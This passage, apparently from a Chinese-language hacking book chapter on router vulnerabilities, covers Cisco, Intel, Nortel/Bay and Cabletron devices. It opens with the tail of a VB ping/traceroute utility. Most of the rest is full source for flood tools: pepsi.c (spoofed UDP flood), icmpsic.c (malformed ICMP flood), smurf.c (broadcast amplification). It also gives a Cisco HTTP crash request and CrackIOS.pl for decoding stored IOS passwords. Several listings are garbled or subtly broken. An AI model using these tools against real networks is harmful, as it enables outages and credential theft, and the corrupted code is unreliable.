        MsgBox "未指定主机名！", vbOKOnly, "VB4032-ICMPEcho"
        ' 如果未识别出主机名则发出警告
        vbWSACleanup
        Exit Sub
    End If
    vbGetHostByName             ' 获取主机的 IPAddress
    vbIcmpCreateFile            ' 获取 ICMP 句柄
    ' 以下代码确定 ICMPEcho 的 TTL
    If IsNumeric(Text2.Text) Then
        If (Val(Text2.Text) > 255) Then Text2.Text = "255"
        If (Val(Text2.Text) < 2) Then Text2.Text = "2"
    Else
        Text2.Text = "255"
    End If
    pIPo.TTL = Trim$(Text2.Text)
    vbIcmpSendEcho              ' 发送 ICMP 回显请求
    vbIcmpCloseHandle           ' 关闭 ICMP 句柄
    vbWSACleanup                ' 关闭 Winsock
End Sub

Private Sub Command2_Click()
    Text3.Text = ""
End Sub

Private Sub Command3_Click()
    Text3.Text = ""
    vbWSAStartup                ' 初始化 Winsock
    If Len(Text1.Text) = 0 Then
        vbGetHostName
    End If
    If Text1.Text = "" Then
        MsgBox "未指定主机名！", vbOKOnly, "VB4032-ICMPEcho"
        ' 如果未识别出主机名则发出警告
        vbWSACleanup
        Exit Sub
    End If
    vbGetHostByName             ' 获取主机的 IPAddress
    vbIcmpCreateFile            ' 获取 ICMP 句柄
    ' 以下代码确定 TRACE 功能中 ICMPEcho 的 TTL
    TraceRT = True
    Text3.Text = Text3.Text + "Tracing Route to " + Label3.Caption + ":" + Chr$(13) + Chr$(10) + Chr$(13) + Chr$(10)
    For TTL = 2 To 255
        pIPo.TTL = TTL
        vbIcmpSendEcho          ' 发送 ICMP 回显请求
        DoEvents
        If RespondingHost = Label3.Caption Then
            Text3.Text = Text3.Text + Chr$(13) + Chr$(10) + "Route Trace has Completed" + Chr$(13) + Chr$(10) + Chr$(13) + Chr$(10)
            Exit For            ' 停止 TraceRT
        End If
    Next TTL
    TraceRT = False
    vbIcmpCloseHandle           ' 关闭 ICMP 句柄
    vbWSACleanup                ' 关闭 Winsock
End Sub
```

## ICMP.bas

```vb
Type Inet_address
    Byte4 As String * 1
    Byte3 As String * 1
    Byte2 As String * 1
    Byte1 As String * 1
End Type
Public iPLong As Inet_address

Type WSADATA
    WVersion As Integer
    wHighVersion As Integer
    szDescription(0 To 255) As Byte
    szSystemStatus(0 To 128) As Byte
    iMaxSockets As Integer
    iMaxUdpDg As Integer
    lpVendorInfo As Long
End Type

Type Hostent
    h_name As Long
    h_aliases As Long
    h_addrtype As Integer
    h_length As Integer
    h_addr_list As Long
End Type

Type IP_OPTION_INFORMATION
    TTL As Byte          ' 生存时间（用于 traceroute）
    Tos As Byte          ' 服务类型（通常为 0）
    Flags As Byte        ' IP 头标志（通常为 0）
    OptionsSize As Long  ' 选项数据大小（通常为 0，最大 40）
    OptionsData As String * 128 ' 选项数据缓冲区
End Type

Public pIPo As IP_OPTION_INFORMATION

Type IP_ECHO_REPLY
    Address(0 To 3) As Byte       ' 响应地址
    Status As Long                ' 响应状态
    RoundTripTime As Long         ' 往返时间（毫秒）
    DataSize As Integer           ' 响应数据大小
    Reserved As Integer           ' 供系统使用
    data As Long                  ' 指向回显数据的指针
    Options As IP_OPTION_INFORMATION ' 响应选项
End Type

Public pIpe As IP_ECHO_REPLY

Declare Function gethostname Lib "ws2_32.dll" (ByVal hostname$, HostLen&) As Long
Declare Function gethostbyname Lib "ws2_32.dll" (ByVal hostname$) As Long
Declare Function WSAGetLastError Lib "ws2_32.dll" () As Long
Declare Function WSAStartup Lib "ws2_32.dll" (ByVal wVersionRequired&, lpWSAData As WSAData) As Long
Declare Function WSACleanup Lib "ws2_32.dll" () As Long
Declare Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (hpvDest As Any, hpvSource As Any, ByVal cbCopy As Long)
Declare Function IcmpCreateFile Lib "icmp.dll" () As Long
Declare Function IcmpCloseHandle Lib "icmp.dll" (ByVal HANDLE As Long) As Boolean
Declare Function IcmpSendEcho Lib "icmp.dll" (ByVal IcmpHandle As Long, ByVal DestAddress As Long, ByVal RequestData As String, ByVal RequestSize As Integer, RequestOpts As IP_OPTION_INFORMATION, ReplyBuffer As IP_ECHO_REPLY, ByVal ReplySize As Long, ByVal TimeOut As Long) As Boolean
```

## 拒绝服务攻击

**概要：** SmartSwitch 路由器 (SSR) 中存在一个 DoS 漏洞。

**入侵状态：** 通过洪泛进行干扰处理。

**脆弱性：** 运行 2.x 固件版本的 SSR 8000。

**突破：** 此瓶颈似乎出现在 SSR 的 ARP 处理机制中。发送大量 ARP 请求会限制 SSR，导致路由器停止处理。匿名攻击者通过定制诸如 icmp.c（可从本书 CD 上的 Tiger Tools 仓库获取）等程序来使 SSR 崩溃。

## 思科

在接入路由器市场顶端，思科（www.cisco.com）是全球互联网互连的领导者，为小型、中型和大型办公室及 ISP 提供模块化和多服务接入平台产品线。思科是大约 115 个国家的供应商，这些地区由直接销售团队、分销商、增值经销商和系统集成商提供服务。思科还托管了互联网上最大的电子商务站点之一，占整体订单交易量的 90%。这些接入产品为数据、语音、视频、拨入接入、VPN 以及多协议 LAN 到 LAN 路由提供了解决方案。凭借高性能的模块化架构，思科已将多个设备的功能集成到一个安全、可管理的单一解决方案中。

## 劣势

### 通用拒绝服务攻击

**概要：** 思科系列接入产品中存在 DoS 漏洞。

**入侵状态：** 未经授权访问和/或系统崩溃。

**脆弱性：** 以下产品：

- AS5200、AS5300 和 AS5800 系列接入服务器
- 7200 和 7500 系列路由器
- uxr7200 系列电缆路由器
- 7100 系列路由器
- 3660 系列路由器
- 4000 和 2500 系列路由器
- SC3640 系统控制器
- AS5800 系列语音网关产品
- AccessPath LS-3、TS-3 和 VS-3 接入解决方案产品


**图 9.4** DOS 系统的 Pepsi。

**漏洞说明：** 在路由器尚未准备好接受 telnet ENVIRON 选项时，持续扫描并断言该选项会导致系统崩溃。此外，向路由器的 syslog 端口（UDP 端口 514）发送数据包也会导致这些系统中的部分崩溃。常见的拒绝服务（DoS）攻击频繁遇到的形式是针对诊断端口的 TCP SYN 泛洪和 UDP 泛洪。如前所述，TCP SYN 攻击由大量伪造的 TCP 连接建立消息组成，旨在针对主机上的特定服务。请记住，较旧的 TCP 实现无法处理大量的伪装数据包，并且不会允许访问受害者的服务。UDP 泛洪最常见的形式是由大量伪造的 UDP 数据包组成的攻击，旨在针对网络设备上的诊断端口。这种攻击也被称为 Soldier 的 pepsi.c 攻击，如下所示，并如图 9.4 所示。

## Pepsi.c

```c
#define FRIEND "My christmas present to the Internet -Soldier"
#define VERSION "Pepsi.c v1.7"
#define DSTPORT 7
#define SRCPORT 19
#define PSIZE 1024
#define DWAIT 1
/*
 *
 * Includes
 */
#include <fcntl.h>
#include <syslog.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <netconfig.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/in_systm.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <arpa/inet.h>
#include <signal.h>
#include <netinet/udp.h>
#include <string.h>
#include <pwd.h>
/*
 * Banner.
 */
void banner()
{
    printf( "\t\t\t%s Author - Soldier \n", VERSION );
    printf( "\t\t\t [10.27.97] \n\n" );
    printf( "This Copy Register to: %s\n\n", FRIEND );
}
/*
 * Option parsing.
 */
struct sockaddr_in dstaddr;
unsigned long dst;
struct udphdr *udp;
struct ip *ip;
char *target;
char *srchost;
int dstport = 0;
int srcport = 0;
int numpacks = 0;
int psize = 0;
int wait = 0;
void usage(char *pname)
{
    printf( "Usage:\n " );
    printf( "%s [-s src] [-n num] [-p size] [-d port] [-o port] [-w <dest>\n\n", pname );
    printf( "\t-s <src> : source where packets are coming from\n" );

    printf( "\t-n <num> : number of UDP packets to send\n" );
    printf( "\t-p <size> : Packet size [Default is 1024]\n" );
    printf( "\t-d <port> : Destination port [Default is %.2d]\n", DSTPORT );
    printf( "\t-o <port> : Source port [Default is %.2d]\n", SRCPORT );
    printf( "\t-w <time> : Wait time between pkts [Default is 1]\n" );
    printf( "\t<dest> : Destination\n" );
    printf( "\n" );
    exit(EXIT_SUCCESS);
}
/*
* Checksum code, Soldier's original stuff.
*/
unsigned short in_cksum(u_short *addr, int len)
{
    register int nleft = len;
    register u_short *w = addr;
    register int sum = 0;
    u_short answer = 0;
    while (nleft > 1 )
    {
        sum += *w++;
        sum += *w++;
        nleft -= 2;
    }
    if (nleft == 1)
    {
        *(u_char *)(&answer) = *(u_char *)w;
        sum += answer;
    }
    sum = (sum >> 17) + (sum & 0xffff);
    sum += (sum >> 17);
    answer = -sum;
    return (answer);
}
void main(int argc, char *argv[])
{
    int sen;
    int i;
    int unlim = 0;
    int sec_check;
    int opt;
    char *packet;
    struct hostent *host = NULL;
    unsigned long a;
    /*
    * Display the banner to begin with.
    */
    banner();
    /*
    * Debugging options.
    */
    openlog( "PEPSI", 0, LOG_LOCAL5 );
    if (argc < 2)
        usage(argv[0]);
    while ((opt = getopt(argc, argv, "s:d:n:p:w:o:")) != EOF)
    {
        switch(opt)
        {
            case 's':
                srghost = (char *)malloc(strlen(optarg) + 1);
                strcpy(srghost, optarg);
                break;
            case 'd':
                dstport = atoi(optarg);
                break;
            case 'n':
                numpacks = atoi(optarg);
                break;
            case 'p':
                psize = atoi(optarg);
                break;
            case 'w':
                wait = atoi(optarg);
                break;
            case 'o':
                srcport = atoi(optarg);
                break;
            default:
                usage(argv[0]);
                break;
        }
        if (!dstport)
        {
            dstport = DSTPORT;
        }
        if (!srcport)
        {
            srcport = SRCPORT;
        }
        if (!psize)
        {
            psize = PSIZE;
        }
        if (!argv[optind])
        {
            puts( "[*] Specify a target host, doof!" );
            exit(EXIT_FAILURE);
        }

        target = (char *)malloc(strlen(argv[optind]));
        if (!target)
        {
            puts( "[*] Agh! Out of memory!" );
            perror( "malloc" );
            exit(EXIT_FAILURE);
        }
        strcpy(target, argv[optind]);
    }
    memset(&dstaddr, 0, sizeof(struct sockaddr_in));
    dstaddr.sin_family = AF_INET;
    dstaddr.sin_addr.s_addr = inet_addr(target);
    if (dstaddr.sin_addr.s_addr == -1)
    {
        host = gethostbyname(target);
        if (host == NULL)
        {
            printf("[*] Unable to resolve %s\t\n", target);
            exit(EXIT_FAILURE);
        }

        dstaddr.sin_family = host->h_addrtype;
        memcpy(&(caddr_t) &dstaddr.sin_addr, host->h_addr, host->h_length);
    }
    memcpy(&dst, (char *)&dstaddr.sin_addr.s_addr, 4);
    printf("# Target Host : %s\n", target);
    printf("# Source Host : %s\n",
            srhost && *srhost ? srhost : "Random");
    if(!numpacks)
        printf("# Number : Unlimited\n");
    else
        printf("# Number : %d\n", numpacks);
    printf("# Packet Size : %d\n", psize);
    printf("# Wait Time : %d\n", wait);
    printf("# Dest Port : %d\n", dstport);
    printf("# Source Port : %d\n", srcport);
    /*
     * Open a socket.
     */
    sen = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    packet = (char *)malloc(sizeof(struct ip) + sizeof(struct udphdr) + psize);
    ip = (struct ip *)packet;
    udp = (struct udphdr *)(packet + sizeof(struct ip));
    memset(packet, 0, sizeof(struct ip) + sizeof(struct udphdr) + psize);
    if(!numpacks)
    {
        unlim++;
        numpacks++;
    }
    if(srhost && *srhost)
    {
        if(!(host = gethostbyname(srhost)))
        {
            printf("[*] Unable to resolve %s\t\n", srhost);
            syslog(LOG_NOTICE, "Unable to resolve [%s]", srhost);
            exit(EXIT_FAILURE);
        }
        else
        {
            ip->ip_src.s_addr = ((unsigned long)host->h_addr);
            syslog(LOG_NOTICE, "IP source is [%s]", host->h_name);
        }
    }
    ip->ip_dst.s_addr = dst;
    ip->ip_v = 4;
    ip->ip_hl = 5;
    ip->ip_ttl = 255;
    ip->ip_p = IPPROTO_UDP;
    ip->ip_len = htons(sizeof(struct ip) + sizeof(struct udphdr) + psize);
    ip->ip_sum = in_cksum(ip, sizeof(struct ip));
    udp->uh_sport = htons(srcport);
    udp->uh_dport = htons(dstport);
    udp->uh_ulen = htons(sizeof(struct udphdr) + psize);
    for (i=0; i<numpacks; (unlim) ? i++, i-- : i++)
    {
        if (!srchost)
        {
            ip->ip_src.s_addr = (unsigned long)rand();
            syslog( LOG_NOTICE, "IP source set randomly.");
        }
        if (sendto (sen, packet, sizeof(struct ip) + sizeof(struct udphdr) + psize, 0, (struct sockaddr *) &dstaddr, sizeof(struct sockaddr_in)) == (-1))
        {
            puts( "[*] Error sending packet." );
            perror( "Sendpacket" );
            exit(EXIT_FAILURE); 
        }
        usleep(wait);
    }
    syslog( LOG_NOTICE, "Sent %d packets to [%s]", numpacks, target );
}
```

## HTTP 拒绝服务（DoS）攻击

**概要：** Cisco 系列接入产品中存在 HTTP DoS 漏洞。

**黑客状态：** 未授权访问和/或系统崩溃。

**易受攻击对象：** 接入路由器。

**漏洞说明：** Cisco 路由器具有内置功能，允许管理员远程监控它们。当启用此功能时，通过发送一个简单的请求即可对路由器发起 HTTP DoS 攻击。该请求将导致路由器停止响应，直到重置设备：

```
http:///%%
```

## IOS 密码破解器

**概要：** Cisco 互连操作系统（IOS）的密码存在潜在暴露风险。

**黑客状态：** 密码破解。

**易受攻击对象：** 接入路由器。

**漏洞说明：** CrackIOS.pl

### CrackIOS.pl

```perl
@xlat = ( 0x64, 0x73, 0x66, 0x64, 0x3b, 0x6b, 0x66, 0x6f, 0x41,
          0x2c, 0x2e, 0x69, 0x79, 0x65, 0x77, 0x72, 0x6b, 0x6c,
          0x64, 0x4a, 0x4b, 0x44, 0x48, 0x53, 0x55, 0x42 );

while (<>) {
    if ((password|md5)\s+7\s+([\da-f]+)\io) {
        if (! (length($2) & 1)) {
            $ep = $2; $dp = "";
            ($s, $e) = ($2 =~ /^(..)(.+)/o);
            for ($i = 0; $i < length($e); $i+=2) {
                $dp .= sprintf
                    "%c",hex(substr($e,$i,2))^$xlat[$s++];
            }
            s/$ep/$dp/;
        }
    }
    print;
}
# eof
```

## NAT 攻击

**概要：** IOS 软件中的 bug 导致网络地址转换（NAT）和输入访问过滤器之间出现数据包泄露。

**黑客状态：** 数据包泄露。

**易受攻击对象：** 以下设备：

- Cisco 17xx 系列路由器。
- Cisco 26xx 系列路由器。
- Cisco 36xx 系列路由器。
- Cisco AS58xx 系列路由器（不包括 AS52xx 或 AS53xx）。
- Cisco 72xx 系列路由器（包括 ubr72xx）。
- Cisco RSP70xx 系列路由器（不包括非 RSP 70xx 路由器）。
- Cisco 75xx 系列路由器。
- Catalyst 5xxx 路由交换模块（RSM）。

**漏洞说明：** 软件 bug 在运行基于 12.0 版本的 Cisco IOS 软件（包括 12.0、12.0S 和 12.0T，所有版本直至 12.04）的某些 Cisco 路由器中，造成 NAT 和输入访问列表处理之间的安全漏洞。这会导致输入访问列表过滤器在特定的 NAT 配置中“泄露”数据包。

## UDP 扫描攻击

**概要：** 对端口 514 执行 UDP 扫描会导致某些运行 IOS 软件版本 12.0 的路由器系统崩溃。

**黑客状态：** 系统崩溃。


## Intel

Intel (www.intel.com) 成立于20世纪60年代末，当时罗伯特·诺伊斯（Robert Noyce）和戈登·摩尔（Gordon Moore）离开仙童半导体（Fairchild Semiconductor）以创立一家新的初创公司。通过开发最先进的微处理器，该公司成长为一个全球巨头，目前在世界40多个国家和地区拥有超过70,000名员工。近年来，Intel 进入接入路由器市场，为分支机构和较小的中心站点提供 Express 路由器连接。该产品线提供便捷的互联网访问、灵活的配置选项、远程管理和安全功能。这些路由器专为高效的 IP/IPX 流量而设计，并包含诸如 IPX/SPX 欺骗和数据包过滤等功能的流量控制。

## 风险

### 拒绝服务攻击

- **概要：** 报告指出，Intel Express 路由器容易受到远程 ICMP 分片和超尺寸 ICMP 数据包分析的利用。
- **攻击状态：** 未经授权的访问和/或系统崩溃。
- **易受攻击目标：** Intel Express 路由器
- **突破：** Intel Express 路由器家族容易受到远程 ICMP 分片和超大尺寸 ICMP 数据包攻击。在这两种情况下，该漏洞均可远程执行；并且由于 ICMP 数据包通常被允许到达路由器，因此该漏洞特别危险。作为示例源代码，请参见 Mike Frantzen 的 ISIC 项目中的 icmpsic.c。

```c
icmpsic.c

#include "isic.h"

/* This is tuned for Ethernet-sized frames (1500 bytes)
* For user over a modem or frame (or other) you will have to change the
* 'rand() & 0x4ff' line below. The 0x4ff needs to be less than the
* size of the frame size minus the length of the IP header (20 bytes II
* RC) minus the length of the TCP header.
*/

/* Variables shared between main and the signal handler so we can
* display output if ctrl-c'd
*/

u_int seed = 0;
u_long acx = 0;
struct timeval starttime;
u_long datapushed = 0;

/* We want a random function that returns 0 to 0x7fff */
#if ( RAND_MAX != 2147483647 )      /* expect signed long */
# error Random IP generation broken: unexpected RAND_MAX.
#endif

int
main(int argc, char **argv)
{
  int sock, c;
  u_char *buf = NULL;
  u_short           *payload = NULL;

  u_int payload_s = 0;
  int packet_len = 0;

  struct ip *ip_hdr = NULL;
  struct icmp *icmp = NULL;
  u_short *ip_opts = NULL;

  /* Packet Variables */
  u_long src_ip = 0, dst_ip = 0;
  u_char tos, ttl, ver;
  u_int id, frag_off;
  u_int ipopt_len;

  /* Functionality Variables */
  int src_ip_rand = 0, dst_ip_rand = 0;
  struct timeval tv, tv2;
  float sec;
  unsigned int cx = 0;
  u_long max_pushed = 10240;          /* 10MB/sec */
  u_long num_to_send = 0xffffffff;    /* Send 4billion packets */
  u_long skip = 0;
  int printout = 0;

  /* Defaults */
  float FragPct = 30;
  float BadIPVer = 10;
  float IPOpts = 50;
  float ICMPCksm = 10;

  /* Not crypto strong randomness but we don't really care. And this
  *
  * gives us a way to determine the seed while the program is running
  *
  * if we need to repeat the results

while ((c = getopt(argc, argv, "hd:s:r:m:k:Dp:V:F:i:i:vx:")) != EOF)
{
switch (c) {
case 'h':
usage(argv[0]);
exit(0);
break;
case 'd':
if ( strcmp(optarg, "rand") == 0 ) {
printf("Using random dest IP\s\n");
dst_ip = 1; /* Just to pass sanity checks */
dst_ip_rand = 1;
break;
}
if (!(dst_ip = libnet_name_resolve(optarg, 1))) {
fprintf(stderr, "Bad dest IP\n");
exit( -1 );
}
break;
case 's':
if ( strcmp(optarg, "rand") == 0 ) {
printf("Using random source IP\s\n");
src_ip = 1; /* Just to pass sanity checks */
src_ip_rand = 1;
break;
}
if (!(src_ip = libnet_name_resolve(optarg, 1))) {
fprintf(stderr, "Bad source IP\n");
exit( -1 );
}
break;
case 'r':
seed = atoi(optarg);
break;
case 'm':
max_pushed = atol(optarg);
break;
case 'k':
skip = atol(optarg);
printf("Will not transit first %li packets.\n", skip);
break;
case 'D':
printout++;
break;
case 'p':
num_to_send = atoi(optarg);
break;
case 'V':
BadIPVer = atof(optarg);
break;
case 'F':
FragPct = atof(optarg);
break;
case 'I':
IPopts = atof(optarg);
break;
case 'i':
ICMPCksm = atof(optarg);
break;
case 'x':
repeat = atoi(optarg);
break;
case 'v':
printf("Version %s\n", VERSION);

exit(0);
}
}

if ( !src_ip || !dst_ip ) {
usage(argv[0]);
exit(EXIT_FAILURE);
}

printf("Compiled against Libnet %s\n", LIBNET_VERSION);
printf("Installing Signal Handlers.\n");
if ( signal(SIGTERM, &sighandler) == SIG_ERR )
printf("Failed to install signal handler for SIGTERM\n");
if ( signal(SIGINT, &sighandler) == SIG_ERR )
printf("Failed to install signal handler for SIGINT\n");
if ( signal(SIGQUIT, &sighandler) == SIG_ERR )
printf("Failed to install signal handler for SIGQUIT\n");

printf("Seeding with %i\n", seed);
srand(seed);
max_pushed *= 1024;

if ( (buf = malloc(IP_MAXPACKET)) == NULL ) {
peror("Malloc: ");
exit( -1 );
}

if ( (sock = libnet_open_raw_sock(IPPROTO_RAW)) == -1 ) {
peror("Socket: ");
exit(EXIT_FAILURE);
}

if ( max_pushed >= 10000000 )
printf("No Maximum traffic limiter\n");
else printf("Maximum traffic rate = %.2f k/s\n", max_pushed/1024.0
);

printf("Bad IP Version\t= %.0f%%\t\t", BadIPVer);
printf("IP Opts Pcnt\t= %.0f%%\n", IPopts);
printf("Frag'd Pcnt\t= %.0f%%\t\t", FragPct);
printf("Bad ICMP Cksm\t= %.0f%%\n", ICMPCKsm);
printf("\n\n");

/* Drop them down to floats so we can multiply and not overflow */
BadIPVer  /= 100;
FragPct   /= 100;
IPOpts    /= 100;
ICMPCKsm  /= 100;

/**** **** **** **** **** ***
* Main Loop *
**** **** **** **** **** ***/
gettimeofday(&tv, NULL);
gettimeofday(&starttime, NULL);

for(acx = 0; acx < num_to_send; acx++) {
packet_len = IP_H + 4;

tos = rand() & 0xff;
id  = acx & 0xffff;
ttl = rand() & 0xff;

if ( rand() <= (RAND_MAX * FragPct) )
    frag_off = rand() & 0xffff;
else frag_off = 0;

/* We're not going to pad IP Options */
if ( rand() <= (RAND_MAX * IPOpts) ) {
  ipopt_len = 10 * (rand() / (float) RAND_MAX);
  ipopt_len = ipopt_len << 1;
  ip_opts = (u_short *) (buf + IP_H);
  packet_len += ipopt_len << 1;

  for ( cx = 0; cx < ipopt_len; cx++ )
    ip_opts[cx] = rand() & 0xffff;
  icmp = (struct icmp *)(buf + IP_H +(ipopt_len << 1));
  ipopt_len = ipopt_len >> 1;
  } else {
  ipopt_len = 0;
  icmp = (struct icmp *) (buf + IP_H);
  }

if ( src_ip_rand == 1 )
  src_ip = ((rand() & 0xffff) << 15) + (rand() & 0xffff);
if ( dst_ip_rand == 1 )
  dst_ip = ((rand() & 0xffff) << 15) + (rand() & 0xffff);

if ( rand() <= (RAND_MAX * BadIPVer ) )
  ver = rand() & 0xf;
else ver = 4;

payload_s = rand() & 0x4ff;           /* length of 1279 */
packet_len += payload_s;

/*
*  Build the IP header

*/
ip_hdr = (struct ip *) buf;
ip_hdr->ip_v       = ver;          /* version 4 */
ip_hdr->ip_hl      = 5 + ipopt_len; /* 20 byte header */
ip_hdr->ip_tos     = tos;          /* IP tos */
ip_hdr->ip_len     = htons(packet_len); /* total length */
ip_hdr->ip_id      = htons(id);    /* IP ID */
ip_hdr->ip_off     = htons(frag_off); /* fragmentation flags */
ip_hdr->ip_ttl     = ttl;          /* time to live */
ip_hdr->ip_p       = IPPROTO_ICMP; /* transport protocol */
ip_hdr->ip_sum     = 0;           /* do this later */
ip_hdr->ip_src.s_addr = src_ip;
ip_hdr->ip_dst.s_addr = dst_ip;

icmp->icmp_type = rand() & 0xff;
icmp->icmp_code = rand() & 0xff;
icmp->icmp_cksum = 0;

payload = (short int *)((u_char *) icmp + 4);
for(cx = 0; cx <= (payload_s >> 1); cx+=1)
    (u_short) payload[cx] = rand() & 0xffff;

if (  rand() <= (RAND_MAX * ICMPCksm) )
   icmp->icmp_cksum = rand() & 0xffff;
else libnet_do_checksum(buf, IPPROTO_ICMP, 4 + payload_s);

if ( printout ) {
    printf("%s ->",
        inet_ntoa(*(struct in_addr*) &src_ip )));
    printf( " %s tos[%i] id[%i] ver[%i] frag[%i]\n",
        inet_ntoa(*(struct in_addr*) &dst_ip ))),
        tos, id, ver, frag_off);
}

if ( skip <= acx ) {
    for ( cx = 0; cx < repeat; cx++ ) {
        c = libnet_write_ip(sock, buf, packet_len);
        datapushed+=c;
    }
    if ( c != (packet_len) ) {
        perror("Failed to send packet");
    }
}

if ( !(acx % 1000) ) {
    if ( acx == 0 )
        continue;
```


## 北电/Bay

北电网络（www.nortelnetworks.com）是接入通信领域的全球领导者，业务涵盖电话、数据和无线通信。北电在加拿大、欧洲、亚太、加勒比、拉丁美洲、中东、非洲和美国设有办事处和设施。在与 Cabletron 和 Cisco 的竞争中，北电提供接入路由器，用于在 LAN 和 WAN 中引导通信流量，包括多业务平台、外联网以及语音/数据平台。尽管主要面向中型和大型办公室及 ISP，但北电也为小型办公室和家庭用户提供接入网关。北电的声誉源于其产品的高功能密度、功能丰富的模块化设计以及安全灵活性。

## 风险

### 泛洪

-   **摘要：** 北电/Bay 接入路由器特别容易受到 ICMP 回显请求泛洪攻击。
-   **攻击状态：** 通过广播风暴造成严重的网络拥塞。
-   **漏洞：** LAN 和 WAN 接入网关。
-   **入侵：** *smurf* 攻击是另一种针对接入路由器的网络级泛洪攻击。在 smurf 攻击中，黑客向 IP 广播地址发送过量的 ICMP 回显（PING）流量，并欺骗受害者的源地址。在一个大型广播网络段中，可能有数百台机器对每个数据包进行回复，从而引发大量广播风暴，进而淹没网络。在广播风暴期间，消息在网络中传播，导致对这些消息的响应，再导致对响应的响应，形成一种雪崩效应。这些风暴会引起严重的网络拥塞，甚至可能使最坚固的网络互连硬件瘫痪。由著名黑客 TFreak 编写的 *smurf.c* 程序通过欺骗 ICMP 数据包来引发广播风暴，这些数据包从某台主机发送到各种广播地址，每个数据包都会生成对该主机的大量复合回复。

### Smurf.c

```c
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>
#include <netdb.h>
#include <ctype.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <string.h>

void banner(void);
void usage(char *);
void smurf(int, struct sockaddr_in, u_long, int);
void ctrlc(int);
unsigned short in_chksum(u_short *, int);

/* stomp */
char id[] = "$Id smurf.c,v 4.0 1997/10/11 13:02:42 EST tfreak Exp $";

int main (int argc, char *argv[])
{
   struct sockaddr_in sin;
   struct hostent *he;
   FILE *bcastfile;
   int i, sock, bcast, delay, num, pktsize, cycle = 0, x;
   char buf[32], **bcastaddr = malloc(8192);

   banner();

   signal(SIGINT, ctrlc);

   if (argc < 6) usage(argv[0]);

   if ((he = gethostbyname(argv[1])) == NULL) {
      perror("resolving source host");
      exit(-1);
   }
   memcpy((caddr_t)&sin.sin_addr, he->h_addr, he->h_length);
   sin.sin_family = AF_INET;
   sin.sin_port = htons(0);

   num = atoi(argv[3]);
   delay = atoi(argv[4]);
   pktsize = atoi(argv[5]);

   if ((bcastfile = fopen(argv[2], "r")) == NULL) {
      perror("opening bcast file");
      exit(-1);
   }
   x = 0;
   while (!feof(bcastfile)) {
      fgets(buf, 32, bcastfile);
      if (buf[0] == '#' || buf[0] == '\n' || ! isdigit(buf[0]))
         continue;
      for (i = 0; i < strlen(buf); i++)
         if (buf[i] == '\n') buf[i] = '\0';
      bcaddr[x] = malloc(32);
      strcpy(bcaddr[x], buf);
      x++;
   }
   bcaddr[x] = 0x0;
   fclose(bcastfile);
   if (x == 0) {
      fprintf(stderr, "ERROR: no broadcasts found in file %s\n\n", argv[2]);
      exit(-1);
   }
   if (pktsize > 1024) {
      fprintf(stderr, "ERROR: packet size must be < 1024\n\n");
      exit(-1);
   }
   if ((sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0) {
      perror("getting socket");
      exit(-1);
   }
   setsockopt(sock, SOL_SOCKET, SO_BROADCAST, (char *)&bcast, sizeof(bcast));
   printf("Flooding %s (. = 25 outgoing packets)\n", argv[1]);
   for (i = 0; i < num || !num; i++) {
      if (!(i % 25)) { printf("."); fflush(stdout); }
      smurf(sock, sin, inet_addr(bcaddr[cycle]), pktsize);
      cycle++;
      if (bcaddr[cycle] == 0x0) cycle = 0;
      usleep(delay);
   }
   puts("\n\n");
   return 0;
}

void banner (void)
{
  puts("\nsmurf.c v4.0 by TFreak\n");
}

void usage (char *prog)
{
  fprintf(stderr, "usage: %s <target> <bcast_file> "
        "<num packets> <packet delay> <packet size>\n\n"
        "target = address to hit\n"
        "bcast_file = file to read broadcast addresses from\n"
        "num packets = number of packets to send (0 = flood)\n"
        "packet delay = wait between each packet (in ms)\n"
        "packet size = size of packet (< 1024)\n\n", prog);
  exit(-1);
}

void smurf (int sock, struct sockaddr_in sin, u_long dest, int psize)
{
  struct iphdr *ip;
  struct icmphdr *icmp;
  char *packet;

  packet = malloc(sizeof(struct iphdr) + sizeof(struct icmphdr) + psize);
  ip = (struct iphdr *)packet;
  icmp = (struct icmphdr *) (packet + sizeof(struct iphdr));

  memset (packet, 0, sizeof(struct iphdr) + sizeof(struct icmphdr) + psize);

  ip->tot_len = htons(sizeof(struct iphdr) + sizeof(struct icmphdr) + psize);
  ip->ihl = 5;
  ip->version = 4;
  ip->ttl = 255;
  ip->tos = 0;
  ip->frag_off = 0;
  ip->protocol = IPPROTO_ICMP;
  ip->saddr = sin.sin_addr.s_addr;
  ip->daddr = dest;
  ip->check = in_chksum((u_short *)ip, sizeof(struct iphdr));
  icmp->type = 8;
  icmp->code = 0;
  icmp->checksum = in_chksum((u_short *)icmp, sizeof(struct icmphdr) + psize);

  sendto(sock, packet, sizeof(struct iphdr) + sizeof(struct icmphdr) + psize,
     0, (struct sockaddr *)&sin, sizeof(struct sockaddr));

  free(packet);             /* free willy! */
}

void ctrlc(int ignored)
{
  puts("\nDone!\n");
  exit(1);
}

unsigned short in_chksum(u_short *addr, int len)
{
  register int nleft = len;
  register int sum = 0;
  u_short answer = 0;

  while (nleft > 1) {
     sum += *addr++;
     nleft -= 2;
  }

  if (nleft == 1) {
     *(u_char *)(&answer) = *(u_char *)addr;
     sum += answer;
  }

  sum = (sum >> 16) + (sum + 0xffff);
  sum += (sum >> 16);
  answer = ~sum;
  return(answer);
}
```

## 互联网服务器守护进程

守护进程是一种与 UNIX 系统相关的程序，执行维护功能；它无需由用户调用，而是始终保持运行并“监听”指定端口以接收服务请求。一旦打开或激活这些端口之一进行通信，程序就会启动会话开始处理。常见的守护进程类型包括处理 FTP、telnet 或 Web 服务的守护进程。互联网上的 Web 服务提供了 Web 浏览的基础。明确地说，Web 服务器守护进程（HTTPD）是一个程序，通常通过 TCP 端口 80 进行监听，并接受根据超文本传输协议（HTTP）提出的信息请求。Web 服务器守护进程处理每个 HTTP 请求并返回一个 Web 页面文档，如 图 9.5 所示。


图 9.5 HTTP 请求。

